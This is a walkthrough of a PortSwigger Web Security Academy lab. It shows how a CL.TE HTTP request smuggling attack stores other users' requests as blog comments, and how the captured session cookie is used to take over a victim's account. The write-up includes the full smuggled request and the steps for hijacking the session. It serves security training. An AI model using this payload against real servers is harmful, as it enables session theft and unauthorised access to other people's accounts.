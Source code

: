 # Exploiting HTTP request smuggling to capture other users' requests

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## Reproduction and proof of concept

1. Visit a blog post and post a comment.
2. Send the ``comment-post`` request to Burp Repeater, shuffle the body parameters so the ``comment`` parameter occurs last, and make sure it still works.
3. Increase the ``comment-post`` request's ``Content-Length`` to 400, then smuggle it to the back-end server:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```

4. View the blog post to see if there's a comment containing a user's request. Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.

A few times, like around 5:

![HTTP header smuggling](../../_static/images/smuggling2.png)

Then headers as a comment, but not enough yet. So, repeating with `700`, then `800` (nearly there), and finally, with a content-length of `810`:

![HTTP header smuggling](../../_static/images/smuggling3.png)

5. Intercept, `carlos`'s login, change the user's `Cookie` header from the comment, and the csrf token from the one used in the comments requests, and use it to access his account.

![HTTP header smuggling](../../_static/images/smuggling4.png)

## Exploitability

An attacker will need to smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.
